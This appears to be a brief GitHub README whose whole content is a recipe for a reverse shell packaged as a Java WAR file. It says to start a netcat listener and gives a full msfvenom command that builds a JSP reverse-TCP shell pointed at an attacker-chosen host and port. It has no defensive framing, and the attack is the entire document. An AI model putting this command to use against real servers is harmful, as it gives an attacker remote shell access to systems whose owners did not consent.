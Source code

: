 # simple_reverse_shell_inside_a_WAR_file
# you gonna use msfvenom for this
# dont forget to start a: nc -lcnp <yourport>

msfvenom -p java/jsp_shell_reverse_tcp LHOST=yourIP LPORT=yourPORT -f war -o revshell.war

